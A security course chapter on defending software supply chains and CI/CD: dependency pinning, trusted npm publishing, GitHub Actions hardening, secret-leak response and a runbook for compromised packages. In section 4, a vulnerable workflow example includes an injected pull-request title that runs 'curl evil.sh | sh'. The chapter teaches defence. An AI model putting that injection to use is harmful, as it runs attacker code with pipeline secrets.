


# Chapter 9: Supply Chain and CI/CD

> **Goal.** After this chapter you can: explain why developers and their tools are prime targets now; protect a project from poisoned npm and PyPI packages; harden a GitHub Actions pipeline; publish packages with short-lived credentials (trusted publishing); respond when a secret leaks or a dependency is compromised; and cite the 2025-26 incidents that prove each point.
>
> **Who:** frontend and backend equally. **Time:** about 2 hours. **Lab:** [Lab 8](13-labs.md) (audit your own project).

---

## 1. Why this matters more every year

Your app is mostly **other people's code**, and your build runs **with your secrets**. Verizon's 2026 report puts third-party involvement in about **48%** of breaches (up from 30%), and OWASP made **A03 Software Supply Chain Failures** its own category in 2025.



**Recent incidents you should be able to describe in one sentence each:**

| Incident | When | What happened | Lesson |
| --- | --- | --- | --- |
| **chalk / debug and other npm packages** | 8 Sep 2025 | A maintainer was phished by a look-alike "npm support" site; attackers published malicious versions of widely used packages (reports say about 18 packages with over 2 billion weekly downloads) carrying crypto-stealing code. Caught within hours (about 2.5 hours live, per one source). | Even a short window reaches millions of installs; pin and delay |
| **Shai-Hulud npm worm** | Sep and Nov 2025 | Self-spreading: stole credentials at install time and used stolen npm tokens to publish infected versions of the victim's other packages. Reports counted 180+ packages (Sep) and almost 500 packages plus 26,000+ GitHub repositories (Nov). | Install scripts run with your credentials; rotate fast |
| **tj-actions/changed-files** | Mar 2025 | A popular GitHub Action was compromised and its **version tags were rewritten** to malicious code that dumped CI secrets into logs; reports put 23,000+ repositories at risk. | **Pin Actions to a full commit SHA**; tags are mutable |
| **React2Shell** | Dec 2025 | Critical RCE in React Server Components (CVSS 10), exploited within days (Chapters 2 and 6). | Framework patch speed is a control |
| **Developer-tool wave** | Mar-Apr 2026 | A 2026 roundup reports backdoored developer tools (Trivy, Bitwarden CLI, Checkmarx, a popular npm package) stealing passwords and tokens; OpenAI, Vercel and an EU agency confirmed downstream impact (compromises confirmed; wider details as reported). | Attackers target the tools developers trust most |
| **XZ Utils backdoor** | 2024 | A patient attacker became a co-maintainer over about two years and hid a backdoor (CVE-2024-3094), discovered by chance. | Trusted maintainers can be the threat |

(Sources in [15-sources.md](15-sources.md). Counts differ across sources; say "reported".)

---

## 2. Dependency hygiene (npm, pip and friends)

**Reproducible installs**

```bash
npm ci                          # installs EXACTLY what the lockfile says (use in CI and Docker; fails if it drifts)
npm ci --ignore-scripts         # also blocks install-time scripts (some packages need them: allow those explicitly)
npm audit signatures            # verify registry signatures and provenance attestations
```

- **Commit the lockfile** (`package-lock.json`, `pnpm-lock.yaml`, `poetry.lock`, `uv.lock`) and review diffs to it.
- **Pin exact versions** for critical dependencies; avoid `@latest`, wide ranges and unpinned CDN scripts.
- **Add a cooldown** before adopting brand-new releases: malicious versions are usually caught within hours or days. Dependabot has a `cooldown` option, Renovate has `minimumReleaseAge`, and pnpm has `minimumReleaseAge`.
- **Python:** pin and verify with hashes (`pip install --require-hashes -r requirements.txt`), and avoid `--extra-index-url` mixing public and private indexes (**dependency confusion**: a public package with the same name as your internal one wins).
- **Review new dependencies:** who maintains it, how many maintainers, recent changes, install scripts, transitive count. **Every dependency is attack surface.** Prefer small, well-maintained libraries, or write the ten lines yourself.
- **Typosquatting:** double-check package names (`reqeusts` is not `requests`). AI assistants sometimes suggest packages that don't exist; attackers have been reported to register such made-up names, so verify before installing.

**Scan and inventory**

- **Software composition analysis (SCA):** `npm audit`, `pip-audit`, `osv-scanner`, Dependabot or Renovate alerts. Triage by *exploited-in-the-wild and internet-facing first* (CISA's KEV list), then severity.
- **SBOM** (software bill of materials, CycloneDX or SPDX): a list of what is in your software, so when the next Log4Shell lands you can answer "are we affected?" in minutes. (`npm sbom` can generate one.)
- **Keep upgrades cheap:** good tests and small, frequent updates beat rare, scary ones. When a critical framework CVE lands, you want a one-day upgrade, not a one-month project.

---

## 3. If you publish packages

The 2025 npm incidents drove real platform changes, as reported by GitHub:

- **Classic npm tokens were permanently revoked (9 December 2025).** New **granular** write tokens enforce 2FA by default and are limited to a **90-day** maximum lifetime; `npm login` now issues a short (two-hour) session token.
- **Trusted publishing (OIDC)** became generally available on **31 July 2025** for GitHub Actions and GitLab CI: your pipeline proves its identity to npm with a short-lived token, **no long-lived secret to steal**, and provenance is generated automatically.
- Use a **phishing-resistant 2FA method** (passkey or security key) on registry accounts. The chalk/debug attack began with a phished maintainer.

```yaml
# .github/workflows/publish.yml: publish with OIDC, no stored npm token
name: publish
on: { release: { types: [published] } }
permissions: { contents: read, id-token: write }     # id-token lets the job prove its identity to npm
jobs:
  publish:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@<FULL-COMMIT-SHA>      # pinned (see section 4)
      - uses: actions/setup-node@<FULL-COMMIT-SHA>
        with: { node-version: 24, registry-url: "https://registry.npmjs.org" }
      - run: npm ci --ignore-scripts && npm publish   # trusted publishing needs a recent npm CLI
```

(Configure the trusted publisher for the package on npm first; check npm's current documentation for exact requirements and supported CI providers.)

---

## 4. Hardening CI/CD (GitHub Actions as the example)



Your pipeline holds your most powerful secrets (deploy keys, registry tokens, cloud access). Treat it like production.

**1. Pin third-party Actions to a full commit SHA**, because tags and branches are mutable. The tj-actions compromise worked by **rewriting existing version tags**.

```yaml
- uses: actions/checkout@<FULL-40-CHAR-COMMIT-SHA>   # v4.x.x
# not: uses: some-org/some-action@v3   (a tag can be moved to malicious code)
```

Let Dependabot or Renovate propose SHA bumps so pinning doesn't mean staleness.

**2. Least-privilege token.** Default to read-only and grant more per job.

```yaml
permissions:
  contents: read
```

**3. Don't let untrusted input become code.** GitHub expressions are pasted into the script *before* it runs:

```yaml
# VULNERABLE: a pull-request title like  "; curl evil.sh | sh  becomes part of the shell command
- run: echo "Title: ${{ github.event.pull_request.title }}"

# SAFER: pass it as an environment variable; the shell treats it as data
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Title: $TITLE"
```

**4. Be careful with `pull_request_target`.** It runs with secrets and write access; **never check out and run code from the untrusted pull-request branch in that context.**

**5. No secrets for forks.** Pull requests from forks shouldn't receive repository secrets.

**6. OIDC to your cloud** instead of long-lived cloud keys stored as secrets.

**7. Protect the human side:** branch protection, required reviews, signed commits where practical, and restricted workflow-file changes (CODEOWNERS on `.github/`).

---

## 5. Secrets: prevent, detect, respond

- **Prevent:** secrets live in a manager; `.env` is git-ignored; no secrets in front-end bundles or images (Chapters 7 and 8).
- **Detect:** secret scanning in CI and a pre-commit hook (for example `gitleaks`), plus your platform's **push protection**, which blocks commits containing known key formats.
- **Respond (rehearse this):**
  1. **Revoke or rotate** the secret **immediately** (deleting the commit is not enough: it may already be cloned or scraped).
  2. **Find what it could reach** and check the provider's logs for misuse.
  3. **Replace** it with a short-lived or narrower credential.
  4. **Write down** how it leaked and add the missing control.

---

## 6. When a dependency is compromised: a runbook

1. **Find out if you're affected:** search lockfiles and your SBOM for the package and versions.
2. **Pin or roll back** to the last known good version; block the bad versions in your registry proxy if you have one.
3. **Assume any credential reachable from a build or machine that installed it is exposed:** rotate npm, GitHub, cloud and CI secrets.
4. **Check for persistence:** unexpected new repositories, workflow files, published package versions or access tokens.
5. **Review logs and the blast radius**; communicate with your team and customers as needed.
6. **Learn:** add a cooldown, scripts policy, or pinning that would have limited it.

---

## Check yourself

1. Why does `npm ci` belong in CI instead of `npm install`?
2. What did the tj-actions/changed-files compromise exploit, and what is the defence?
3. What does a dependency cooldown protect against?
4. What is trusted publishing and why is it safer than a stored token?
5. Show the safe way to use a pull-request title inside a workflow `run:` step.
6. A package you use is reported compromised. Give the first three things you do.

**Answers** *(cover this until you have tried)*

1. `npm ci` installs exactly the lockfile's versions and fails if they drift, so builds are reproducible and an unexpected new version can't slip in.
2. Attackers rewrote existing version tags so workflows that used a tag ran malicious code that exposed secrets. Pin Actions to a full commit SHA (and use least-privilege tokens).
3. Newly published malicious versions, which are usually detected within hours or days; waiting a few days avoids installing them.
4. Your CI proves its identity to the registry through OIDC and receives a short-lived token, so there is no long-lived secret to steal; provenance is generated too.
5. Pass it through an environment variable (`env: TITLE: ${{ ... }}`, then `echo "$TITLE"`) so the shell treats it as data, not code.
6. Check whether you're affected (lockfiles, SBOM); pin or roll back; rotate every credential reachable from machines or builds that installed it (and check for persistence).

---

## Summary

- Developers and their tools are prime targets: chalk/debug (Sep 2025), Shai-Hulud (Sep and Nov 2025), tj-actions (Mar 2025), React2Shell (Dec 2025), the 2026 developer-tool wave, XZ (2024).
- Dependencies: commit lockfiles, `npm ci`, consider `--ignore-scripts`, verify signatures, use a cooldown, review new packages, keep an SBOM, keep upgrades cheap.
- Publishing: trusted publishing (OIDC) and phishing-resistant 2FA; classic npm tokens are gone and granular tokens expire.
- CI: pin Actions to SHAs, read-only tokens, no untrusted input in `run:`, careful with `pull_request_target`, OIDC to the cloud.
- Secrets: prevent, detect, and rehearse revoke-rotate-investigate.
